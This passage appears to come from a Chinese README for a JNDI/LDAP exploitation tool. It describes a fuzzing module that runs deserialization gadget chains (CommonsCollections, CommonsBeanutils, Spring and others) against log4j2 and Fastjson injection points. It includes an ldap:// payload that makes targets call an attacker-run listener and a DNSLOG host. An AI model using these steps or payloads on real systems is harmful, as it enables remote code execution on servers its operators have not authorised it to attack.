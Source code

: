 (反序列化链存在版本区别serialVersionUID会改变，通过dns请求可知目标可以使用el,groovy,BeanShell1反序列化,CC3.2.1反序列化,CB192等等利用模块)(PS:测试使用mac故未出现系统信息)

4. 选择其中一个利用链进行利用

![image-20220810134405232](images/success.png)

## FUZZ模块

#### **说明：**

在上述情况不知道如何利用的情况下可以使用本模块进行fuzz。

#### **使用步骤：**

1. 利用DNSLOG发现log4j2漏洞或者Fastjson类能够发起ldap请求的漏洞。
2. 在目标可以访问的服务器上(vps或内网服务器)开启本工具进行监听

3. 需要配合burpsutite的intruder模块
4. 配合DNSLOG平台接收请求(推荐ceye)(使用`python3 -m http.server port`简易http接受请求)
5. 直接使用已有的利用链直接生成发起dns请求的命令，搭配dns平台进行fuzz
6. 原理：使用各个利用链发起dns请求。
7. `ldap://0.0.0.0:1389/fuzz/EL/xxxx.dnslog.cn`

下列为FUZZ使用字典

```
URLDNS 
CommonsBeanutils1
CommonsBeanutils183NOCC
CommonsBeanutils192NOCC
CommonsCollections1
CommonsCollections2
CommonsCollections3
CommonsCollections4
CommonsCollections5
CommonsCollections6
CommonsCollections7
CommonsCollectionsK1
CommonsCollectionsK2
CommonsCollectionsK3
CommonsCollectionsK4
C3P0
groovyBytomcat
Clojure
BeanShell1
JSON1
Spring1
Spring2
Hibernate1
MozillaRhino1
rome
```